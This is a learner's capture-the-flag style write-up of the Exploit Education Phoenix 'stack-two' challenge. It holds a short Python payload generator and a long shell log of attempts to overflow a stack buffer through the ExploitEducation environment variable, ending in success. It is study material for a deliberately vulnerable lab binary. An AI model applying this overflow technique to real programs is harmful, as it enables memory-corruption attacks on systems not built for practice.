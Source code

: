 ### Stacktwo 

This one was challenging for me to understand, I really really struggled with it even though it was easy.
First mistake that I had made was that I didnt read code carefully which lead me to not see that we need to set up the ExploiEducation 
Env variable, which is kinda terrible. An oversight like this really shows how much more i need to study and understand

Nevertheless Once I saw the solution online I was embarassed af and then went ahead to write the code to solve it.
Its technically the same except we need to pass answers via env var.
Also I was terribly embarassed that I had forgotten how to reverse a string in python

### Code
```python3
padding = 'A'*64
offset = '\x0d\x0a\x09\x0a'
print(padding+offset[::-1])

```

### Creds
```
No credentials/flag.
```

### Logs
```
➜  amd64 echo $(python3 -c 'print("A"*65+'\r\n\t\n')') | ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
Traceback (most recent call last):
  File "<string>", line 1, in <module>
NameError: name 'rntn' is not defined
➜  amd64 out=$(python3 ~/code/stack-two.py)
➜  amd64 echo -ne $out | ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
➜  amd64 out=$(python3 ~/code/stack-two.py)
➜  amd64 echo -ne $out | ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
➜  amd64 echo $out | ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
➜  amd64 python3 ~/code/stack-two.py| ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
Exception ignored in: <_io.TextIOWrapper name='<stdout>' mode='w' encoding='UTF-8'>
BrokenPipeError: [Errno 32] Broken pipe
➜  amd64 (python3 ~/code/stack-two.py) ./stack-two
zsh: parse error near `./stack-two'
➜  amd64 $(python3 ~/code/stack-two.py) ./stack-two
zsh: command not found: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^M
➜  amd64 ./stack-two $(python3 ~/code/stack-two.py)
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
➜  amd64 export ExploitEducation=$(python3 ~/code/stack-two.py) ./stack-two
export: not valid in this context: ./stack-two
➜  amd64 export ExploitEducation=$(python3 ~/code/stack-two.py) ;./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x090a0d41, we want 0x0d0a090a
➜  amd64 export ExploitEducation=$(python3 ~/code/stack-two.py) ;./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x0a090a41, we want 0x0d0a090a
➜  amd64 export ExploitEducation=$(python3 ~/code/stack-two.py) ;./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
➜  amd64 

```

```
export ExploitEducation=$(python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\n\t\n\r')")
```

 ~Kurama
